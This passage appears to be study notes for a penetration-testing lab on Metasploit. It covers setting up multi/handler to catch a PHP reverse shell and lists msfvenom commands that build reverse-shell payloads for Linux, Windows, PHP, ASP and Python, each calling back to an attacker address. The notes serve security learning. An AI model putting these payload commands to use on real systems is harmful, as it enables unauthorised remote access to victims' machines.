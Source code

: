 *Note:*
	The output PHP file will miss the starting PHP tag commented and the end tag (`?>`), as seen below:
![[Pasted image 20240815201517.png]]

The reverse_shell.php file should be edited to convert it into a working PHP file. 
Below: Comments removed from the beginning of the file // end tag added.
![[Pasted image 20240815201603.png]]
![[Pasted image 20240815201632.png]]

We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command. Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells. To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.
![[Pasted image 20240815201802.png]]

Once everything is set, we will `run` the handler and wait for the incoming connection.
![[Pasted image 20240815201819.png]]

Note:
	When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell. If the payload was set as Meterpreter (e.g. in a Windows executable format), multi/handler would then provide us with a Meterpreter shell.

### **Other Payloads**
Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen. Below are a few examples you will often use:

**Linux Executable and Linkable Format (elf)**  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.  
  
**Windows**  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
**PHP**  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
**ASP**  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
**Python**  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`


**Workflow**
1) Create a meterpreter payload in the .elf format 
![[Pasted image 20240815204009.png]]
